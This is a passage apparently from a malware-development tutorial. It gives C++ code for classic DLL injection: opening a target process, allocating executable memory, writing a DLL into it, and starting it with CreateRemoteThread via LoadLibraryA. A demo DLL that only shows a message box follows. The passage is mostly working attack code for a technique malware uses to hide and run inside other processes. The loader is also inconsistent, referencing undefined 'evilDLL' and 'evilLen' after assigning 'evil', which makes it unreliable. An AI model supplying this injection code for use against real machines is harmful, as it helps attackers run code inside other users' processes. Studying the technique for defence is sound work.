 ```cpp
// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As usual, for simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
